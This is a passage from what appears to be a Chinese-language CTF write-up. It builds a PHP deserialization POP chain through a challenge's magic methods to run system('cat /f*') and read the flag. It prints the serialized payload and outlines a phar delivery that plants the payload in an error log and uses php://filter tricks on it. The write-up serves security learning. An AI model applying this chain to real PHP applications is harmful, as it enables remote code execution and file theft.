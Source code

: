 ```php

        public function __get($key){    // 读不存在属性
            ($key)($this->arg); // 目标 可rce
            // arg = 'cat /f*';
        }
    }
```

Myerror.class.php

```php
<?php
    class Myerror{
        public $message;    // new Files();

        public function __construct(){
            ini_set('error_log','/var/www/html/log/error.txt');
            ini_set('log_errors',1);
        }

        public function __tostring(){
            $test=$this->message->{$this->test};    // Files::__get
            return "test";
            // test = 'system'
        }
    }
```

构造pop链时，注意password

```php
$user = new User();
$files = new Files();
$myerror = new Myerror();

$files->arg = 'cat /f*';
$myerror->message = $files;
$myerror->test = 'system';
$user->username = $myerror;
// $user->password = [new User(), "check"]; 这样会使$user的两个字段都赋不上值
$user->password = [$user, "check"];

echo serialize($user);
// O:4:"User":2:{s:8:"username";O:7:"Myerror":2:{s:7:"message";O:5:"Files":2:{s:8:"filename";N;s:3:"arg";s:3:"dir";}s:4:"test";s:6:"system";}s:8:"password";a:2:{i:0;r:1;i:1;s:5:"check";}}
```

经测试可以触发，之后就是如何写phar的问题了

看代码可以知道没有直接的unserialize点，那大概率是phar，虽然没有上传处 但是Myerror类的构造方法中可以写日志

![image.png](https://i.loli.net/2021/11/28/a5WEKMOeYP8zcHg.png)

可以看到日志中有脏数据，我们需要借助过滤器的编码来删去；首先是清空文件内容，可以用`php://filter/read=consumed/resource=log/error.txt`
